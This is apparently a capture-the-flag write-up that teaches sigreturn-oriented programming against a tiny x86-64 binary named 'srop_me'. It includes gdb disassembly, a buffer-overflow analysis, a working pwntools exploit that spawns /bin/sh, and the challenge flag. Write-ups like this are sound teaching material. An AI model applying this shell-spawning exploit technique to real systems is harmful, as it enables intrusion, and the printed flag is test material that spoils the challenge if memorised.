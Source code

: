 # **ASM**
We are provided with a small binary, there's no linked libc. Due to the very small size of the binary and the absence of libc, there are not enough gadgets to perform a usual rop chain. Instead, as the name of the executable (`srop_me`) suggests, we need to srop.

# SROP ?
So I had to google a bit because I never did SROP before :)

I based myself on https://sharkmoos.medium.com/a-quick-demonstration-of-sigreturn-oriented-programming-d9ae98c3ab0e

This is what you need in your rop chain :
- gadget to set `rax` to `15` (code for `sigreturn`)
- syscall gadget (call sigreturn)
- a fake sigreturn frame that contains the proper registers for execve('/bin/sh')
- syscall gadget (call execve)

`sigreturn` will restore the registers according to the sigreturn frame on the stack, and then execution will proceed at the `rip` (program counter) provided in the frame.



# Executable
What mitigations are in place ?
```
[*] '/home/skuuk/n00bz/srop_me'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
```
NX is not actually disabled, this is a bug from checksec :
```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000400000 0x00000000401000 0x00000000000000 r-- /home/skuuk/n00bz/srop_me
0x00000000401000 0x00000000402000 0x00000000001000 r-x /home/skuuk/n00bz/srop_me
0x00000000402000 0x00000000403000 0x00000000002000 r-- /home/skuuk/n00bz/srop_me
0x007ffff7ff9000 0x007ffff7ffd000 0x00000000000000 r-- [vvar]
0x007ffff7ffd000 0x007ffff7fff000 0x00000000000000 r-x [vdso]
0x007ffffffde000 0x007ffffffff000 0x00000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x00000000000000 --x [vsyscall]
```

The executable is so simple we can just look at its disassembly in gdb
```
gef➤  disas _start
Dump of assembler code for function _start:
=> 0x0000000000401038 <+0>:	call   0x401000 <vuln>
   0x000000000040103d <+5>:	mov    eax,0x3c
   0x0000000000401042 <+10>:	mov    edi,0x0
   0x0000000000401047 <+15>:	syscall 
   0x0000000000401049 <+17>:	ret    
End of assembler dump.
gef➤  disas vuln
Dump of assembler code for function vuln:
   0x0000000000401000 <+0>:	mov    eax,0x1
   0x0000000000401005 <+5>:	mov    edi,0x1
   0x000000000040100a <+10>:	movabs rsi,0x402000
   0x0000000000401014 <+20>:	mov    edx,0xf
   0x0000000000401019 <+25>:	syscall 
   0x000000000040101b <+27>:	sub    rsp,0x20
   0x000000000040101f <+31>:	mov    eax,0x0
   0x0000000000401024 <+36>:	mov    edi,0x0
   0x0000000000401029 <+41>:	mov    rsi,rsp
   0x000000000040102c <+44>:	mov    edx,0x200
   0x0000000000401031 <+49>:	syscall 
   0x0000000000401033 <+51>:	add    rsp,0x20
   0x0000000000401037 <+55>:	ret    
End of assembler dump.
gef➤  tele 0x402000
0x00000000402000│+0x0000: "Hello, world!!\n/bin/sh"
0x00000000402008│+0x0008: "orld!!\n/bin/sh"
0x00000000402010│+0x0010: 0x0068732f6e6962 ("bin/sh"?)
0x00000000402018│+0x0018:  add BYTE PTR [rax], al
0x00000000402020│+0x0020:  add BYTE PTR [rax], al
0x00000000402028│+0x0028:  add BYTE PTR [rax], al
0x00000000402030│+0x0030:  add BYTE PTR [rax], al
0x00000000402038│+0x0038: 0x00000000401000  →  <vuln+0> mov eax, 0x1
0x00000000402040│+0x0040:  add BYTE PTR [rax], al
0x00000000402048│+0x0048:  add BYTE PTR [rax], al
gef➤
```
If you don't know, on x86-64 systems :
- the syscall code is stored in `rax`
- 1st, 2nd and 3rd arguments are stored `rdi`,`rsi` and `rdx` respectively
- `eXX` refers to the 4 lower bytes of register `rXX`
- the syscall code for `read` is 0
- the syscall code for `write` is 1

What does the executable do ?
- calls `vuln`
- vuln firsts calls `write(1,"Hello, world!!\n/bin/sh",0xf)` (*note the presence of `/bin/sh\x00` in memory*) to stdout which effectively just writes `"Hello, world!!\n"` (15 bytes)
- vuln then calls `read(0,buff,0x200)` where `buff` is only of size 32 bytes (buffer overflow !)

# Vulnerability

We have a buffer overflow and we can use it to send our srop chain !

There is a small caveat when it comes to the srop chain construction : no `pop rax` gadget, so at first glance there is no way to control rax to ensure we call sigreturn.

However, `read` stores the number of characters read to `rax`. We can thus call `vuln` again and since we control the number of bytes sent, we control the number of bytes read, and effectively `rax`. Think of it as a fancy `pop rax` gadget.

# Exploit
Without all of the pwntools boilerplate from the template :
```python
io = start()

binsh = next(exe.search(b"/bin/sh\x00")) # /bin/sh is present in the binary
syscall_ret = ROP(exe).find_gadget(['syscall', 'ret'])[0] # syscall gadget

frame = SigreturnFrame()
frame.rax = 59          # syscall code for execve
frame.rdi = binsh       # path
frame.rsi = 0           # args
frame.rdx = 0           # env
frame.rip = syscall_ret # syscall gadget to call execve

rop  = p64(exe.symbols['vuln']) # so that we read from stdin and store the number of bytes read to rax
rop += p64(syscall_ret)         # call sigreturn ()
rop += bytes(frame)             # frame used by sigreturn

io.recvuntil("!!\n")
io.sendline(b"a" * 32 + rop)

io.recvuntil("!!\n") # otherwise the second read will fail
io.sendline(b"a"*14) #  15 bytes read -> rax=15 (code for sigreturn) when returning from vuln the 2nd time

io.sendline(b"cat flag")
io.interactive()
```
*you can find my full exploit in `srop.py`*
# FLAG
```
n00bz{SR0P_1$_s0_fun_r1ght??!}
```